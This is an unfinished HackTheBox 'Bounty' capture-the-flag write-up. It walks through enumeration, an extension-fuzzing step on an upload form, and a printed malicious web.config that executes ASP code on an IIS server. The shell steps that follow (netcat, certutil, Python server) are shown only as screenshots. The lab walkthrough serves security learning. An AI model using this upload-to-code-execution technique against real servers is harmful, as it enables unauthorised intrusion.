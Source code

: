 ```yaml
---
title: [In-Progress] HackTheBox_Bounty w/o Metasploit
date: 2024-07-28 01:22:00 -500
categories: [hackthebox,CTF,writeups]
tags: [ctf,hackthebox,writeup,windows,easy,incomplete]
---
```



## HTB - Bounty

![Image](/assets/img/bounty/bounty.png)

## Enumeration

### Nmap Scan

![Image](/assets/img/bounty/Untitled.png)

### Homepage

![Image](/assets/img/bounty/Untitled_1.png)

### Dirbusting Results

![Image](/assets/img/bounty/Untitled_2.png)

### Transfer.aspx

![Image](/assets/img/bounty/Untitled_3.png)

## Vulnerabilities

### Transfer.aspx Directory

Asp through webconfig [https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

## Exploitation

### Upload Extensions

Let's see what extensions we can upload to the server

First, let's send the upload action to a repeater

![Image](/assets/img/bounty/Untitled_4.png)

### Creating Payload

Now let's create our payload

![Image](/assets/img/bounty/Untitled_5.png)

Let this be our `extensions.txt` file

![Image](/assets/img/bounty/Untitled_6.png)

We send the request to the intruder and then add our payload

![Image](/assets/img/bounty/Untitled_7.png)

### Defining Payload

Here we define the payload

![Image](/assets/img/bounty/Untitled_8.png)

OK, so with this we can tell that the server accepts uploads with these extensions

![Image](/assets/img/bounty/Untitled_9.png)

### Using Config File

[https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

This config file allows us to upload ASP files, which could give us a shell, so let's use this

```xml

`<?xml` `version="1.0"` `encoding="UTF-8"?>`

`<configuration>`

`<system.webServer>`

`<handlers` `accessPolicy="Read, Script, Write">`

`<add` `name="web_config"` `path="*.config"` `verb="*"` `modules="IsapiModule"` `scriptProcessor="%windir%\system32\inetsrv\asp.dll"` `resourceType="Unspecified"` `requireAccess="Write"` `preCondition="bitness64"` `/>`

`</handlers>`

`<security>`

`<requestFiltering>`

`<fileExtensions>`

`<remove` `fileExtension=".config"` `/>`

`</fileExtensions>`

`<hiddenSegments>`

`<remove` `segment="web.config"` `/>`

`</hiddenSegments>`

`</requestFiltering>`

`</security>`

`</system.webServer>`

`</configuration>`

`<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!`

`<%`

`Response.write("-"&"->")`

`' it is running the ASP code if you can see 3 by opening the web.config file!`

`Response.write(1+2)`

`Response.write("<!-"&"-")`

`%>`

- `->`

```

### Uploading Shell

Now let's upload this file on the server

![Image](/assets/img/bounty/Untitled_10.png)

![Image](/assets/img/bounty/Untitled_11.png)

It's displaying 3, which means our web.config file is working properly

### Getting a Shell

Now we can go ahead and try getting a shell

![Image](/assets/img/bounty/Untitled_12.png)

Alright, we have made our payload, now time to get it running on the victim's box

### Setting Up

Setting up our Python server and netcat

![Image](/assets/img/bounty/Untitled_13.png)

### Using Certutil

We will now use certutil to get the exe payload

![Image](/assets/img/bounty/Untitled_14.png)

### Uploading and Refreshing

And on uploading, then refreshing the uploadedfiles/webconfig dir

We have our shell

![Image](/assets/img/bounty/Untitled_15.png)

**Note: Shell kept bugging out, will update this in the future**

